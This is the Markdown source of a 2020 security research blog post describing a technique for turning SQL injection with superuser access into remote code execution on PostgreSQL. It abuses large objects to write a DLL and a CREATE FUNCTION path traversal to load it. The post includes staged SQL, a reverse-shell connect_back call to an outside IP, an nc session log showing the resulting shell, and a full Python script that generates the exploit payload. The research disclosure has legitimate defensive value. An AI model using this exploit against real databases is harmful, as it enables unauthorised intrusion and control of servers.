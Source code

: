 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Postgres" src="/assets/images/sql-injection-double-uppercut-how-to-achieve-remote-code-execution/pg.png">
<p class="cn" markdown="1">When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilties against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.</p>

<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I share yet another technique to achieve remote code execution against PostgreSQL Database.*</p>

<p class="cn" markdown="1">An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).</p>

## Prior Research

<p class="cn" markdown="1">Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.</p>

<p class="cn" markdown="1">I was planning on sitting this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;-></p>

<p class="cn" markdown="1">I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.</p>

## CREATE FUNCTION obj_file Directory Traversal

<div markdown="1" class="cn">
- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L))
</div>

### Environment

<p class="cn" markdown="1">This technique works on both *nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.</p>

### Summary

<p class="cn" markdown="1">On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on *nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.</p>

<p class="cn" markdown="1">However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.</p>

<p class="cn" markdown="1">The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.</p>

### Attack Flow

<p class="cn" markdown="1">**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.</p>

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

<p class="cn" markdown="1">We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.</p>

<p class="cn" markdown="1">**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.</p>

<p class="cn" markdown="1">For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.</p>

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

<p class="cn" markdown="1">It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.</p>

<p class="cn" markdown="1">**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.</p>

```sql
select lo_export(1337, 'poc.dll');
```

<p class="cn" markdown="1">**Stage 4 -** Now, let's trigger the loading of the library.</p>

<p class="cn" markdown="1">I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.</p>

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

<p class="cn" markdown="1">However, a few years passed and the PostgreSQL developers decided to block fix paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:</p>

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

<p class="cn" markdown="1">**Stage 5 -** Trigger your reverse shell.</p>

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

<div markdown="1" class="cn">
- You can load DllMain also, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.
</div>

### Fun Facts

<p class="cn" markdown="1">ZDI initially aquired this case but never published an advisory and I was later told me that the vendor wasn't patching it since it's considered a *feature not a bug*.</p>

### Automation

<p class="cn" markdown="1">This code will generate a poc.sql file to run on the database as the superuser. Example:</p>

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

<div markdown="1" class="cn">
- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
</div>
